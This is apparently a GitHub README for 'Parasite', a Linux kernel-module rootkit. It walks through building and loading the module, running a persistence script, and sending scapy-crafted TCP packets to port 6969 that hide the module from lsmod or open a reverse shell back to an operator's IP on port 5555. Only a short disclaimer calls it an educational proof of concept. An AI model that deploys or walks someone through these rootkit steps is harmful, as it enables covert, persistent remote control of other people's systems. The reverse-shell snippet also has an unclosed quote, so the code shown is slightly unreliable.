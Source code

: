 # Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE/reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

Works with kernel versions 5.0 and greater, tested and built natively on 5.4.0

1. Update system and ensure linux-headers is installed
```sh
apt update && install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires Make)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x ./persist.sh

./persist.sh
```

5. Install the module
```sh
insmod LKM.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 3 options that can be used: hide, show, and reverse shell. It doesn't matter how you send the packet, but personally I used scapy. 

Note: You *must* replace **INSERT_IP** with the LKM machine's IP



- ROOTKIT_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
data='ROOTKIT_HIDE'
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

- ROOTKIT_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
data='ROOTKIT_SHOW'
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

- ROOTKIT_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
data='ROOTKIT_RSHELL127.0.0.1
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
TODO: Will add shortly
